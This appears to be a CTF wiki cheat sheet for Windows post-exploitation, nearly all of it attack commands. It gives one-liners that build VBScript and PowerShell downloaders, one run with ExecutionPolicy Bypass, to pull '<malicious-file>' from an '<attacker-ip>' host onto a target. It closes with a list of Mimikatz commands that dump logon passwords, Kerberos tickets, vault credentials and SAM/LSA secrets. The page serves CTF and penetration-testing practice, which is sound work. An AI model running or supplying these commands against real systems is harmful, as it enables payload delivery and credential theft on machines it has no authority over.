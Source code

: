```yaml
---
layout: article
title: Windows
permalink: /wikis/ctf/windows
aside:
    toc: true
sidebar:
    nav: wikis
---
```



## File Transfer

### cscript

If command execution is available and firewalls allow for file transfers: 

cscript.exe is a command-line version of the Windows Script Host that provides command-line options for setting script properties. With cscript.exe, you can run scripts by typing the name of a script file at the command prompt.

create wget.vbs for vbscript transfer (in one single command) 
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs && echo StrFile = WScript.Arguments.Item(1) >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs && echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs && echo Err.Clear >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs && echo http.Open ^"GET^", strURL, False >> wget.vbs && echo http.Send >> wget.vbs && echo varByteArray = http.ResponseBody >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs && echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs && echo strData = ^"^" >> wget.vbs && echo strBuffer = ^"^" >> wget.vbs && echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs && echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs && echo Next >> wget.vbs && echo ts.Close >> wget.vbs 
```
 
Use cscript to run the wget.vbs script 
```
cscript <script-name> http://<attacker-ip>/<malicious-file> <output-file> 
```


### PowerShell

```
echo $storageDir = $pwd> wget.ps1 && echo $webclient = New-Object System.Net.WebClient>> wget.ps1 && echo $url = "http://<attacker-ip>/<malicious-file>">> wget.ps1 

echo $file = "<output-file>">> wget.ps1 
echo $webclient.DownloadFile($url,$file)>> wget.ps1 
```
 
Confirm script creation 
```
type wget.ps1 
```
 
Execute ps script 
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File <scriptname>
```



## Mimikatz

Extracting information from mimikatz 
```
log 
privilege::debug 
sekurlsa::logonpasswords 
sekurlsa::tickets /export 

vault::cred 
vault::list 

token::elevate 
vault::cred 
vault::list 
lsadump::sam 
lsadump::secrets 
lsadump::cache
```



